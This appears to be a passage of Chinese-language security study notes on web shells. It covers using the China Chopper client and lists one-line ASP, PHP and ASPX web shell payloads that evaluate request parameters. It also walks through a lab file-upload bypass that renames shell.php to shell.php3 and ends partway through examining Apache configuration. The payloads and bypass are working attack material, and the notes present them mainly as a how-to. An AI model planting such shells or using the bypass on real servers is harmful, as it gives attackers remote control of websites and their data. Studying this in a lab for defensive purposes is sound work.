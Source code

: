 

#### 中国菜刀

- 简介：中国菜刀是一个 Webshell 集成环境 
- 下载链接
  - https://github.com/raddyfiy/caidao-official-version
  - 做 MD5 校验，杜绝黑吃黑
- 双击打开 caidao.exe --> 右键添加 SHELL --> 写入地址 与 变量 --> 双击进入服务器目录
- 右键打开 虚拟终端 --> 执行端口查询命令 $ netstat -an | grep ESTABLISHED





#### 一句话木马

- asp 一句话木马：
  - <%execute(request("value"))%> 
- php 一句话木马：
  - <?php @eval($_POST[“value”]);?> 
- aspx 一句话木马：
  - <%@ Page Language="Jscript"%>
  - <%eval(Request.Item["value"])%> 
- 其他一句话木马 
  - <%eval request("value")%>
  - <%execute request("value")%>
  - <%execute(request("value"))%> 



#### 后缀名绕过

- 设置安全等级：Set your security level: **medium**

- 上传文件: upload shell.php

  - 上传失败
  - Sorry, the file extension is not allowed. The following extensions are blocked: **asp, aspx, dll, exe, jsp, php**

- 更改文件名：upload shell.php3

  - 上传成功
  - 中国菜刀进入成功

- 更改文件名：upload shell.php30

  - 上传成功
  - 中国菜刀进入失败

- 思考：后缀名改为 .php3，尝试绕过可以，为什么 .php30 后缀不行呢？ 

- 后缀名绕过原理

  - 显示所有运行的容器：docker ps
  - 进入docker交互的shell 中：docker exec -it fffcfba80832 bash
  - 查看网络连接：netstat -antp
  - 查看网络连接并过滤80端口：netstat -antp| grep 80
  - 找到 apache2 的配置文件目录： cd /etc/apache2/
  - 查看配置文件：vim apache2.conf
  - 找到module加载配置：

